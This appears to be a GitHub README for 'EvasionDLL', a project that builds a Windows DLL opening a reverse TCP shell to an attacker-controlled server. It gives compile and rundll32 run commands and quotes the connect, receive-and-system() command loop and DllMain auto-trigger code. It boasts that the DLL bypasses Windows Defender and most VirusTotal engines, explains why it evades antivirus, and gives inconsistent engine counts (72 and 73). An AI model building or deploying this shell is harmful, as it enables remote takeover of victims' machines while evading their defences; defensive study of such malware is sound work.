


# EvasionDLL
Malicious DLL used for establishing a Reverse TCP Shell 

## Overview
EvasionDLL is a research-focused project demonstrating how **DLL-based reverse shells** can be used to evade detection. 

---

# Detection Status  
During testing, **Windows 10 and Windows 11 did not flag this DLL as malicious**, allowing it to execute without interference. Standard Windows Defender protections were **bypassed** in a default configuration.  
 
### VirusTotal Scan Results  
Additionally, when uploaded to **VirusTotal**, the file received **only 3 detections out of 72 antivirus engines**, indicating that many security solutions failed to recognize it as a threat. 


## How to Compile and Run

### **Compiling the C File to a DLL**  

To compile the provided C file (`reverse_shell.c`) into a DLL on a Linux system using **MinGW**, use the following command:  

```bash
x86_64-w64-mingw32-gcc -shared -o reverse_shell.dll reverse_shell.c -lws2_32
```

### Running the DLL on Windows

Once the DLL is compiled, you can run it on a Windows System using the following command:
```bash
rundll32.exe .\reverse_shell.dll reverse_shell
```


## Understanding the Code

### Winsock Initialization
```c
WSADATA wsa;
if (WSAStartup(MAKEWORD(2,2), &wsa) != 0) {
    printf("WSAStartup failed with error: %d\n", WSAGetLastError());
    return;
}
```
- Initializes **Windows Sockets API (Winsock)** to enable network communication.
- If initialization fails, the function exits.

### Socket Creation
```c
sock = socket(AF_INET, SOCK_STREAM, 0);
if (sock == INVALID_SOCKET) {
    printf("Socket creation failed with error: %d\n", WSAGetLastError());
    WSACleanup();
    return;
}
```
- Creates a **TCP socket** for communication.
- If socket creation fails, the program terminates.

### Connecting to the Remote Server
```c
server.sin_family = AF_INET;
server.sin_port = htons(PORT);
server.sin_addr.s_addr = inet_addr(IP);

if (connect(sock, (struct sockaddr*)&server, sizeof(server)) < 0) {
    printf("Connection failed with error: %d\n", WSAGetLastError());
    closesocket(sock);
    WSACleanup();
    return;
}
```
- Specifies the **attacker-controlled server IP and port**.
- Attempts to establish a **reverse shell connection**.

### Command Execution Loop
```c
bytes_received = recv(sock, buffer, sizeof(buffer), 0);
if (bytes_received == SOCKET_ERROR) {
    printf("Recv failed with error: %d\n", WSAGetLastError());
    break;
}

buffer[bytes_received] = '\0';
system(buffer);  // Execute received commands

bytes_received = send(sock, buffer, bytes_received, 0);
```
- **Receives commands** from the attacker.
- Uses `system(buffer)` to **execute received commands**.
- Sends **command output back to the attacker**.

### DLL Execution Trigger
```c
BOOL APIENTRY DllMain(HMODULE hModule, DWORD ul_reason_for_call, LPVOID lpReserved) {
    if (ul_reason_for_call == DLL_PROCESS_ATTACH) {
        reverse_shell(); // Execute the reverse shell when the DLL is loaded
    }
    return TRUE;
}
```
- When the DLL is **loaded into a process**, it **automatically** launches the reverse shell.
- This **abuses DLL hijacking or injection** to execute malware.
---

## Why This Code is Stealthy

This **DLL-based reverse shell** is designed to be **stealthy** and **difficult to detect** by traditional security solutions. The code employs a few key techniques that contribute to its evasion capabilities:

1. **No User Interaction**: The reverse shell is executed as a DLL, which can be loaded into a process without the user's explicit action. This makes it harder to detect since it doesn't require the typical user-triggered behaviors like running an executable file. By leveraging **DLL injection**, it can remain hidden in memory and avoid common detection methods targeting executables.

2. **Minimal Behavioral Footprint**: The code establishes a **TCP connection** to a remote server and executes system commands through the **`system()`** function. These actions are difficult to flag because the reverse shell itself doesn't exhibit any **suspicious file activity** or aggressive system changes. It only listens for commands and responds, mimicking legitimate network traffic.

3. **Bypassing Signature-Based Detection**: Many traditional **antivirus programs** rely on signature-based detection to flag known threats. However, this reverse shell is **custom-crafted** and doesn’t exhibit easily recognizable patterns that many security tools look for. Since the code is **not widely known**, signature-based antivirus engines have a harder time identifying it as malicious.

4. **Low Detection Rate on VirusTotal**: When uploaded to **VirusTotal**, this DLL was flagged by only **3 out of 73 antivirus engines**. This low detection rate is partly due to the **unique nature** of the code and its use of common system functions (like `system()`) that are often considered benign. Security solutions relying on heuristics or reputation-based detection may fail to flag it, especially when executed in controlled environments that don't exhibit obvious signs of exploitation.

These factors make this reverse shell **highly effective at evading detection** in environments where traditional security tools are used, highlighting the need for **advanced behavioral analysis** and **network monitoring** to detect malicious activity in real-time.

---

## Further Reading
- [MITRE ATT&CK: Execution Techniques](https://attack.mitre.org/techniques/T1059/)
- [Microsoft Security Guidance](https://www.microsoft.com/security/blog/)
- [DLL Injection Explained](https://attack.mitre.org/techniques/T1055/001/)

---


**Disclaimer:** This repository is for **educational and research purposes only**. 
